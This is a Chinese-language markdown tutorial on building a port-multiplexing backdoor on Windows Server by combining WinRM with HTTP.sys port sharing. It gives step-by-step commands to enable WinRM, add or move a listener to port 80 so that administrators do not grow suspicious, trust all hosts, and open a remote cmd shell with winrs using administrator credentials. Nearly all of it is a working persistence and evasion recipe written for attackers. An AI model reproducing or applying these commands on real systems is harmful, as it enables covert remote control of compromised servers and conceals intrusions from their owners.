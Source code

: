 >  HTTP.sys驱动是IIS的主要组成部分，主要负责HTTP协议相关的处理，它有一个重要的功能叫**Port Sharing**，即端口共享；
>
>  所有基于HTTP.sys驱动的HTTP应用可以共享同一个端口，只需要各自注册的url前缀不一样即可；
>
>  使用Windows的远程管理服务WinRM，结合HTTP.sys驱动自带的端口复用功能，可实现端口复用后门 

```bash
netsh http show servicestate	#查看所有在HTTP.sys上注册过的url前缀
```

**1、 开启WinRM服务**

WinRm使用端口：`http 5985、https 5986` 

`Server 2012`及之后，已经默认开启WinRM并监听了`5985`端口

`Server 2008`及之前的系统

```bash
winrm quickconfig -q			#开启WinRM并自动从防火墙放行`5985`端口
```

**2、 Server 2012配置，新增80端口Listerner**

对于原本就开放了WinRM的机器（Server 2012），需要保留该端口，以免影响系统管理员正常使用

同时还需要新增一个80端口的Listener供攻击者使用

```bash
winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}

winrm e winrm/config/Listener	#查看80端口的Listener是否出现
netsh http show servicestate	#查看是否新增了url前缀
```

**3、Server 2008配置，修改WinRM端口**

对于原本未开放WinRM服务的机器（Server 2008），需要把新开的**5985**端口修改至80端口，避免引起系统管理员怀疑

```bash
winrm set winrm/config/Listener?Address=*+Transport=HTTP @{Port="80"}
```

**4、后门连接**

 首先开启本机WinRM服务，然后设置信任连接的主机 

```bash
winrm quickconfig -q 	# 开启服务
winrm set winrm/config/Client @{TrustedHosts="*"}  # 设置信任连接的主机
```

 执行使用winrs命令连接远程WinRM服务，获取交互shell

```bash
winrs -r:http://www.baidu.com -u:administrator -p:P@ssw0rd cmd
```

------

端口复用相关工具： https://github.com/Heart-Sky/port-multiplexing 

# 参考连接

 [端口复用后门 - 0x4D75 - 博客园](https://www.cnblogs.com/0x4D75/p/11381449.html#%E4%B8%80-%E7%AB%AF%E5%8F%A3%E5%A4%8D%E7%94%A8) 